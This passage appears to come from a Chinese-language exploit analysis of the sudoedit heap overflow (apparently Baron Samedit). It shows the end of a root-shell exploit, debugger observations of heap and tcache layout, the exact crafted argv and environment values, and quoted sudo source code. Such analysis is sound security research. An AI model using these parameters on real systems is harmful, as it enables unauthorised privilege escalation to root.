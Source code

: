```
    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}

```

使用上述 exp 进行调试，在 get_user_info 之后查看 service_table 链表，可以看到

<table><thead><tr><th></th><th>Name_database_entry (0x20)</th><th>service_user(0x40)</th><th>service_user(0x40)</th></tr></thead><tbody><tr><td>passwd</td><td>0x55555558<strong>2430</strong></td><td>0x55555558<strong>2450</strong></td><td>0x55555558<strong>2490</strong></td></tr><tr><td>grpup</td><td>0x55555558<strong>24d0</strong></td><td>0x55555558<strong><em>7080</em></strong></td><td>0x55555558<strong><em>70c0</em></strong></td></tr></tbody></table>

![](https://attach.52pojie.cn/forum/202105/13/194112ahgael5vgv7rc7j7.png)

从上面可以看到，在 service_table 完成初始化之后第二行的 entry 和 service_user 之间距离很大，再检查当前空闲堆链表。

![](https://attach.52pojie.cn/forum/202105/13/194132xpd5pw22n1h5p1jf.png)

可以看到 tcache 中正好有一个 0x80 大小的空闲堆在 service_user 之前，后面要做的就是在给 user_args 分配空间时，恰好拿到它。  
 ![](https://attach.52pojie.cn/forum/202105/13/194155x00lq37qe8ee3x9e.png)   
在最后，我们可以看到，溢出完成之后，我们成功分配到了 0x555555587000 的 tcache bin，并且成功将 0x5555555870b0 处的 files 改写为了 X/P0P_SH3LLZ_，  
继续调试，就能拿到 root shell。  
 ![](https://attach.52pojie.cn/forum/202105/13/201334ejmfrbuuru905rf1.gif) 5.3 参数分析  
上面为 blasty 的 exp，实际执行参数如下：

```
smash_a = "A"*56 + '\\'    
smash_b = "B"*54 + '\\'
s_envp[0:63] = "\\"
s_envp[63] = "X/P0P_SH3LLZ_"
s_envp[64] = “LC_ALL=C.UTF-8@", 'C' <repeats 212 times>
s_envp[65] = NULL
/usr/bin/sudoedit -s smash_a '\\' smash_b NULL s_envp

```

smash_a 和 smash_b 是用来控制 user_args 的堆大小，堆申请时 chunck size 大小为用户请求大小 + 16-8 align to 16，在 / plugins/sudoers 下的 sudoers.c 文件的 set_cmnd 中，关于 user_args 代码如下

```
 for (size = 0, av = NewArgv + 1; *av; av++)
                size += strlen(*av) + 1;
            if (size == 0 || (user_args = malloc(size)) == NULL) {
                sudo_warnx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
                debug_return_int(-1);
            }
            if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
                /*
                 * When running a command via a shell, the sudo front-end
                 * escapes potential meta chars.  We unescape non-spaces
                 * for sudoers matching and logging purposes.
                 */
                for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
                    while (*from) {
                        if (from[0] == '\\' && !isspace((unsigned char)from[1]))
                            from++;
                        *to++ = *from++;
                    }
                    *to++ = ' ';
                }
```